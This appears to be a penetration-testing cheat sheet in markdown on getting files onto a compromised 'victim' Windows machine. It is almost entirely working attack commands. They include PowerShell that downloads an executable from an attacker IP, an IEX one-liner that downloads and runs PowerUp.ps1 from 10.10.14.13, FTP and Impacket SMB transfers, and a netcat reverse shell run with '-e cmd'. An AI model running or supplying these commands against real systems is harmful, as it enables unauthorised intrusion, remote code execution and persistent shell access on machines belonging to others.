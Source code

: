 # Transferin Files on Victim Windows
## Web Transfer

### Set Up a Simple Python Webserver on Local Linux machine
```
python -m SimpleHTTPServer 80
python3 -m http.server 80
```

### Download files to victim machine with Powershell
```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

### Download and Execute powershell script 
```
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13/PowerUp.ps1')"
```

### Via FTP
```
echo open 192.168.1.101 21> ftp.txt
echo USER user>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET plink.exe>> ftp.txt
echo bye>> ftp.txt
```
```
ftp -v -n -s:ftp.txt
```

### Via SMB
## Set Up Samba Server on Attacker Linux Machine
>##### Via Daemon
```
apt install samba samba-common
mkdir /var/www/html/pub
nano /etc/samba/smbd.conf  
#add these lines:
[myshare]
path = /var/www/html/pub
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
```
> ##### Via Impacket Repo
```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket/examples
python smbserver.py myshare /var/www/html/pub
```
## Use executable file in victim machine
> ##### Attacker machine:
```
cp nc.exe /var/www/html/pub/
```
> ##### Victim machine
```
net use y: \\10.10.14.13\myshare
y:\nc.exe 10.10.14.13 4444 -e cmd 
```
